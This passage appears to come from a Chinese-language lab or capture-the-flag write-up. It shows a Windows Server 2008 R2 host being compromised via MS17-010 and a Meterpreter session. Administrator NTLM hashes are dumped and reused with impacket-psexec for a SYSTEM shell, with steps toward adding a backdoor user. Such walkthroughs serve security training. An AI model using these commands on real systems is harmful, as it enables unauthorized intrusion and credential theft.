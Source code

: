 ```shell
[*] Meterpreter session 1 opened (127.0.0.1:8888 -> 127.0.0.1:49112) at 2024-07-26 15:15:08 +0800
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > sysinfo
Computer        : XR-WIN08
OS              : Windows Server 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
```

:::warning

MS7-010 漏洞的利用要一点运气，确认漏洞存在但是不成功的话，就多试几次

:::

## 172.22.15.24 添加后门用户

尝试运行 `shell` 启动终端，但是失败了，于是尝试通过 `meterpreter-hashdump` 配合 `impacket-psexec` 获取终端

```shell
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e52d03e9b939997401466a0ec5a9cbc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

获取得到 `Administrator` 的哈希之后，执行 `impacket-psexec`

```shell
┌──(randark ㉿ kali)-[~]
└─$ proxychains4 -q impacket-psexec administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 172.22.15.24.....
[*] Found writable share ADMIN$
[*] Uploading file QbvIybMQ.exe
[*] Opening SVCManager on 172.22.15.24.....
[*] Creating service cJdd on 172.22.15.24.....
[*] Starting service cJdd.....
[!] Press help for extra shell commands
Microsoft Windows [版本 6.1.7601]
版权所有 (c) 2009 Microsoft Corporation。保留所有权利。

C:\Windows\system32> whoami
nt authority\system
```

然后更改用户密码

